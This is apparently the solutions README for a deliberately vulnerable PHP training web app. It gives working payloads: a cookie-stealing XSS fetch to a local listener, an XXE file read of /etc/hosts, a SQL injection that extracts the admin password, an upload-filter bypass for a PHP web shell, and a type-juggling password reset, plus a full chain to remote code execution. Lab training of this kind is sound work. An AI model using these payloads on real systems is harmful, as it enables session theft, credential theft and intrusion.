 
## Solutions & vulnerability locations

**Comments - comments.php**

Name and Comment field should accept something like:
```
{
'name':'name',
'comment':'<script>fetch("http://127.0.0.1:8888",{method: "post",mode: "no-cors",body:document.cookie});</script>'
}
```
Comments and names are stored on the MySQL db and automatically loaded when the page is refreshed.

With a python listener on the host machine, a script like the above should return a cookie.  Since this is not a real website, you'll have to manually log in to test it.

**Order Form - order.php**

Saves an order as an XML file. Only the webadmin account can review orders. Send some XXE here for later.  Order "form" is insecure, but the intended path is to upload something to the "Upload order form option".  There is an example `xxe.xml` file in the Notes folder of the repo.  XML orders can only be viewed at the admin page, which links to xml_read.php. Submitted orders are stored in the resources/orders folder.

xxe.xml:
```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///etc/hosts" >]>
<Order>
  <order order_num="4">
    <Name>Brandon</Name>
    <Address>123 Ashley avenue</Address>
    <Email>BrandonRocks@email.com</Email>
    <Item>&xxe;</Item>
  </order>
</Order>
```

**Products Page - Products.php**

Very open to SQL injection.  Once authenticated as a base user, the attacker can get the webadmin password with something in the product search like:
```
1 UNION SELECT NULL, Username, Password FROM users WHERE Username = "webadmin"
```

**Gallery - social.php**

Reasonable file upload filter, but still weak.  This filter will catch files ending in php, but not php.jpg.  This should work:
`evil.php.jpg`
Then, if an attacker has also grabbed the webadmin password from the products page, from the admin portal they can rename uploads and change the file to `evil.php`.

I've included a cmd.php file in the Notes folder if you want to test it. Submitted images are stored in the resources/user_images folder.  Also accepts svg files if you'd like to try XXE that way, although I haven't tested it.

## Admin-only Pages

**Admin - admin_page.php**

This page contains a way to list uploaded image files and rename or delete them, as well as a way to view XML order forms. Both allow for RCE and potentially a reverse shell, depending on the exploitation path.  Maliciously uploaded image files can be renamed, and XML orders can be viewed. The "recover image" functionalty doesn't let you recover images submitted by other users.  Its there in case you delete something and want it back.  XML orders files, uploaded images, and 'deleted' images are in the Resources folder path of the source code.

An image file can be accessed at the localhost:8000/resources/user_images/<evil.file> path.

**Reset Password - reset_pw.php**

PHP type juggling.  This page does not check to see if the user for which the password is being changed is the same user that is logged in.  It just sets the $username_entered variable equal to whatever $_POST['Username'] is.  It does, however, check the $new_password against the $username_entered password in the DB.  

The syntax in the logic is vulnerable:
```
if (($_POST['new_password'] == $_POST['new_password2']) && (strcmp($_POST['old_password'],$password) == 0)){
```
The first half of this section checks that the new password is entered twice, identically.  The second half compares the DB-supplied and user-supplied password to ensure that they are the same. If the "old" password entered by the user is not the same as their current password, the password change will fail. However, The `== 0` comparison is weak.  PHP evaluates empty arrays as false, which is also "equal to" zero.  Intercepting the HTTP request and changing the 'old_password' to an empty array should allow an attacker to reset the webadmin's password to whatever they like.  Something like this should work:

```
In Burp Suite or another proxy: change old_password=foobar to old_password[]=''
```

**View Orders - view_order.php**

This page renders user provided XML (in the form of an "order form") to the webadmin user.  This should be useful for leveraging XXE attacks submitted via the 'Order Form' page. Orders are automatically assigned numeric names in ascending order.

**db.php**

Hard-coded database credentials are not securely stored, and are left in the default webroot file path.

## No deliberate exploit path, but probably vulnerable anyway due to lazy development ##
- **login.php**
- **logout.php**
- **php.ini** This is just here for docker.
- **phpinfo.php & phpmyadmin** Included for fun, and can be attacked.
- **continue.php**

This page reflects the user name back to an authenticated user.  Untested, but likely will accept XSS or other input based attacks.  User name is committed to the DB.  No functionality to add a new user or "sign up" is included in the site currently, so it would be difficult to exploit without DB injection.

- **secretdir.php**

The file "secretdir" just holds functions.  It initially was for something else, but I never renamed it.  

## Example Attack Path

**As a user**
1. Stored XSS via comments to obtain user cookie
2. Authenticate with user cookie (or just skip this step and log in as a user from the start)
3. upload a shell with a .php.jgp extension on the 'Gallery' page. Other script types may work, like sh.jpg.
4. Navigate to products page
5. SQLi products page via union select for webadmin password

OR

PHP type juggling to reset webadmin password

Alternatively, attempt an XXE injection on the "Orders page" for later use.

**As webadmin**
1. authenticate as webadmin
2. admin page is now available, although there is no button.  It is admin_page.php.
The admin_page.php site is available after logging in as "webadmin" and clicking the "click here to continue message". A new link for the admin portal should appear.
3. change shell from jpg to php extension
4. use uploaded shell for RCE at /resources/user_images/<filename.php>
5. attempt reverse shell

Alternatively, review the XXE order you placed earlier.
